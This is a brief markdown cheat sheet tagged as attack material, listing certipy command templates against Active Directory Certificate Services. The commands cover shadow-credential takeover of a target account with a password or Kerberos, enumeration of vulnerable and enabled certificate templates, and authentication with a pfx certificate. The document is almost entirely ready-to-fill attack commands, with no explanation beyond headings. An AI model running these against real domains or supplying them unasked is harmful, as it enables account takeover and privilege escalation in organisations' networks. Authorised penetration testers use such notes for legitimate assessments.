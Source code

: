 # certipy
#plateform/linux #target/remote #cat/ATTACK

## Shadow cred
```
certipy shadow auto -u <user>@<domain> -p '<passwd>' -account <target_user>
```

## Shadow cred using kerberos
```
certipy shadow auto -k -target <ip> -account <target_user>
```

## Enumerate vulnerable certificate templates
```
certipy find -vulnerable -u <user>@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```

## Enumerate enabled certificate templates
```
certipy find -enabled -u <user>@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```


## Authenticating using a pfx
```
certipy auth -pfx "<file_name>.pfx" -dc-ip '<DC-IP>' -username '<user>' -domain '<domain>'
```


